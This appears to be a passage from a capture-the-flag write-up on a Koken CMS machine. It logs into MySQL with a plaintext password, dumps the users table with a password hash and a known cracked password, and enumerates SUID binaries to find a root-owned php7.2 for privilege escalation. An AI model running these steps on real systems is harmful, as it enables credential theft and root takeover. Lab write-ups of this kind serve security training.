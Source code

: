 **Connect to local mysql server and list local databases:**

```bash
mysql -u kokenuser -puser_password_here -h 127.0.0.1 -e "show databases;"
Database
information_schema
koken
```

**Show all tables in the `koken` database:**

```bash
$ mysql -u kokenuser -puser_password_here -h 127.0.0.1 -D koken -e "show tables;"
Tables_in_koken
koken_albums
koken_applications
koken_categories
koken_content
koken_drafts
koken_history
koken_join_albums_categories
koken_join_albums_content
koken_join_albums_covers
koken_join_albums_tags
koken_join_albums_text
koken_join_categories_content
koken_join_categories_text
koken_join_content_tags
koken_join_tags_text
koken_plugins
koken_settings
koken_slugs
koken_tags
koken_text
koken_trash
koken_urls
koken_users
```

**View the `koken_users` table to see the password hash for the `daisa` user (which we already know is `babygirl`):**

```bash
$ mysql -u kokenuser -puser_password_here -h 127.0.0.1 -D koken -e "select * from koken_users;"
id	password	email	created_on	modified_on	first_name	last_name	public_first_name	public_last_name	public_display	public_email	twitter	facebook	google	internal_id	remember_me
1	$2a$08$ruF3jtzIEZF1JMy/osNYj.ibzEiHWYCE4qsC6P/sMBZorx2ZTSGwK	daisa@photographer.com	1595292775	1723430563	daisa	ahomidaisa	ahomi	both	daisa@photographer.com	NULL	NULL	NULL	6d9505613547705d48ec6ac1792b18e0	4b0176d800bd42bfaf0c6969ea66be3d
```

**Use the find command to discover that the `php7.2` binary is SUID root enabled:**

```bash
$ find / -user root -perm -4000 -print 2>/dev/null | xargs ls -lh | egrep -v "/bin/mount|/bin/su|/bin/ping|/bin/umount|/usr/bin/chfn|/usr/bin/locate|/usr/bin/ssh-agent|/usr/bin/sudo|/usr/bin/passwd|/usr/bin/gpasswd|/usr/bin/newgrp|/usr/bin/lockfile|/usr/bin/at|/usr/bin/chage|/usr/bin/crontab|/usr/bin/sudoedit|/usr/bin/chsh|/usr/kerberos/bin/ksu|/usr/libexec/utempter/utempter|openssh/ssh-keysign|/usr/lib/squid/ncsa_auth|/usr/lib/squid/pam_auth|vmware-user-suid-wrapper|/usr/lib/news/bin/startinnfeed|/usr/lib/news/bin/inndstart|/usr/bin/wall|/usr/bin/write|/usr/sbin/usernetctl|/usr/sbin/suexec|/usr/sbin/lockdev|/usr/sbin/userhelper|/usr/sbin/ccreds_validate|dbus-daemon-launch-helper|pam_timestamp_check|/sbin/unix_chkpwd|/sbin/netreport|/sbin/mount|/sbin/umount|/bin/fusermount|bin/pppd|/usr/bin/X|/usr/bin/mlocate|/usr/lib/news/bin/rnews|/usr/sbin/userisdnctl|sendmail.sendmail|hal-mtab-lock|/usr/bin/rcp|/usr/bin/rsh|/usr/bin/rlogin|ccreds_chkpwd|pt_chown|plugin-config|proximity-helper"
...
  -rwsr-xr-x 1 root root       4.7M Jul  9  2020 /usr/bin/php7.2
```
